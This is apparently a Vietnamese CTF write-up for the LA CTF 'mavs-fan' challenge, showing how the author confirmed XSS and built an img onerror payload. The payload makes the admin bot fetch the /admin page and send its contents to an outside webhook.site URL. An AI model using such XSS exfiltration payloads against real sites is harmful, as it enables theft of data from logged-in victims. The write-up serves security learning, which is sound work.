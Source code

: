 ### Hints

XSS 

### Solution

Challenge cho mình một trang web như sau 

![image](https://hackmd.io/_uploads/BJ9heoDYke.png)

Và một trang bot 

![image](https://hackmd.io/_uploads/S1iB7ovFyl.png)

Sau khi đọc source của web và vì web có bot nên mình nghĩ sẽ có lỗ hổng về XSS nên mình thử payload sau 

```html
<img src=x onerror=alert(1); />
```

Web chạy được cả code js mình truyền vào từ đó mình confirm có dính XSS thật

![image](https://hackmd.io/_uploads/Syb8bsvYyl.png)

Tiếp theo mình lookup mục tiêu và thấy rằng endpoint /admin sẽ trả ra flag nếu ở cookie có secret là ADMIN_SECRET. 

```js
app.get('/admin', (req, res) => {
    if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        return res.redirect("/");
    }
    return res.json({ trade_plan: FLAG });
});
```

Lúc đầu thì mình định lấy cookie của admin nhưng mà sau khi đọc note của challenge `Note that the admin cookie is HttpOnly!` thì mình biết là không đọc được. Lúc này mình suy nghĩ một hồi thì chỉ cần redirect con bot vào trang /admin và lấy content thôi. Vì flag cũng nằm trên content web đó mà/ 

Nên mình sẽ xây dựng được payload như sau 

```html
<img src=x onerror="fetch('https://mavs-fan.chall.lac.tf/admin').then(response => response.text()).then(data => console.log(data))" />
```

Khi chạy thì ta lấy được content của page như sau 

![image](https://hackmd.io/_uploads/BJyfzjvtkl.png)

Sau đó mình xây dựng payload để catch webhook như sau. Vì một số vấn đề về newline nên mình sẽ sử dụng JSON.stringify để format cái data mình nhận.

```html
<img src=x onerror="fetch('https://mavs-fan.chall.lac.tf/admin').then(response => response.text()).then(data => fetch('https://webhook.site/e5799148-b55d-49e8-b89b-987a28176905/?content='+JSON.stringify(data)))" />
```
